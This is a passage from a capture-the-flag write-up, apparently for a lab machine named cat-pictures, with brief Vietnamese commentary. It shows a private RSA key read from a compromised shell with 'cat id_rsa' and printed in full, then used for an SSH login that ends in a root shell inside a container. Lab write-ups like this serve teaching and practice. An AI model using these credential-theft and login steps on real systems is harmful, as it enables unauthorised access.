 ```python
cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAmI1dCzfMF4y+TG3QcyaN3B7pLVMzPqQ1fSQ2J9jKzYxWArW5
IWnCNvY8gOZdOSWgDODCj8mOssL7SIIgkOuD1OzM0cMBSCCwYlaN9F8zmz6UJX+k
jSmQqh7eqtXuAvOkadRoFlyog2kZ1Gb72zebR75UCBzCKv1zODRx2zLgFyGu0k2u
xCa4zmBdm80X0gKbk5MTgM4/l8U3DFZgSg45v+2uM3aoqbhSNu/nXRNFyR/Wb10H
tzeTEJeqIrjbAwcOZzPhISo6fuUVNH0pLQOf/9B1ojI3/jhJ+zE6MB0m77iE07cr
lT5PuxlcjbItlEF9tjqudycnFRlGAKG6uU8/8wIDAQABAoIBAH1NyDo5p6tEUN8o
aErdRTKkNTWknHf8m27h+pW6TcKOXeu15o3ad8t7cHEUR0h0bkWFrGo8zbhpzcte
D2/Z85xGsWouufPL3fW4ULuEIziGK1utv7SvioMh/hXmyKymActny+NqUoQ2JSBB
QuhqgWJppE5RiO+U5ToqYccBv+1e2bO9P+agWe+3hpjWtiAUHEdorlJK9D+zpw8s
/+9CjpDzjXA45X2ikZ1AhWNLhPBnH3CpIgug8WIxY9fMbmU8BInA8M4LUvQq5A63
zvWWtuh5bTkj622QQc0Eq1bJ0bfUkQRD33sqRVUUBE9r+YvKxHAOrhkZHsvwWhK/
oylx3WECgYEAyFR+lUqnQs9BwrpS/A0SjbTToOPiCICzdjW9XPOxKy/+8Pvn7gLv
00j5NVv6c0zmHJRCG+wELOVSfRYv7z88V+mJ302Bhf6uuPd9Xu96d8Kr3+iMGoqp
tK7/3m4FjoiNCpZbQw9VHcZvkq1ET6qdzU+1I894YLVu258KeCVUqIMCgYEAwvHy
QTo6VdMOdoINzdcCCcrFCDcswYXxQ5SpI4qMpHniizoa3oQRHO5miPlAKNytw5PQ
zSKoIW47AObP2twzVAH7d+PWRzqAGZXW8gsF6Ls48LxSJGzz8V191PjbcGQO7Oro
Em8pQ+qCISxv3A8fKvG5E9xOspD0/3lsM/zGD9ECgYBOTgDAuFKS4dKRnCUt0qpK
68DBJfJHYo9DiJQBTlwVRoh/h+fLeChoTSDkQ5StFwTnbOg+Y83qAqVwsYiBGxWq
Q2YZ/ADB8KA5OrwtrKwRPe3S8uI4ybS2JKVtO1I+uY9v8P+xQcACiHs6OTH3dfiC
tUJXwhQKsUCo5gzAk874owKBgC/xvTjZjztIWwg+WBLFzFSIMAkjOLinrnyGdUqu
aoSRDWxcb/tF08efwkvxsRvbmki9c97fpSYDrDM+kOQsv9rrWeNUf4CpHJQuS9zf
ZSal1Q0v46vdt+kmqynTwnRTx2/xHf5apHV1mWd7PE+M0IeJR5Fg32H/UKH8ROZM
RpHhAoGAehljGmhge+i0EPtcok8zJe+qpcV2SkLRi7kJZ2LaR97QAmCCsH5SndzR
tDjVbkh5BX0cYtxDnfAF3ErDU15jP8+27pEO5xQNYExxf1y7kxB6Mh9JYJlq0aDt
O4fvFElowV6MXVEMY/04fdnSWavh0D+IkyGRcY5myFHyhWvmFcQ=
-----END RSA PRIVATE KEY-----
I have no name!@cat-pictures:/home/catlover# 
```

Lưu key này về vào login ssh

```python
┌──(kali㉿kali)-[~]
└─$ ssh -i id_rsa catlover@10.10.213.118
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Nov 17 23:29:45 PST 2022

  System load:                    0.41
  Usage of /:                     37.2% of 19.56GB
  Memory usage:                   60%
  Swap usage:                     0%
  Processes:                      100
  Users logged in:                0
  IP address for eth0:            10.10.213.118
  IP address for br-98674f8f20f9: 172.18.0.1
  IP address for docker0:         172.17.0.1


52 updates can be applied immediately.
25 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


Last login: Fri Jun  4 14:40:35 2021
root@7546fa2336d6:/# id
uid=0(root) gid=0(root) groups=0(root)
root@7546fa2336d6:/# ls root/
```